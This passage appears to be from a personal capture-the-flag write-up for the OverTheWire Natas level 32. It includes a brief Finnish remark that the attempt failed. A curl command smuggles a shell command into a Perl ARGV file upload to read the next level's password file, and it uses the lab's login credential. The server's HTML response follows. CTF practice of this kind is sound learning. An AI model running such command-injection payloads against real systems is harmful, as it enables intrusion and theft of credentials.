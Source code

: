 ```
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

tämä on muu pohja testaus, mutta testattu ja ei pelittänyt, että fail ja hyvä testata ja harjoitus komento.

```
┌──(kali㉿kali)-[~]
└─$ curl -X POST "http://natas32.natas.labs.overthewire.org/index.pl?cat%20%2Fetc%2Fnatas_webpass%2Fnatas33%20%7C" \
  -u natas32:NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B \
  -F 'file=ARGV' \
  -F 'file=@/home/kali/Downloads/Book1.csv;type=text/csv' \
  -F 'submit=Upload'
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<head>
<!-- This stuff in the header has nothing to do with the level -->
<!-- Bootstrap -->
<link href="bootstrap-3.3.6-dist/css/bootstrap.min.css" rel="stylesheet">
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas32", "pass": "<censored>" };</script>
<script src="sorttable.js"></script>
</head>
<script src="bootstrap-3.3.6-dist/js/bootstrap.min.js"></script>

<!-- 
    morla/10111 
    shouts to Netanel Rubin    
-->

<style>
#content {
    width: 900px;
}
.btn-file {
    position: relative;
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}

</style>
```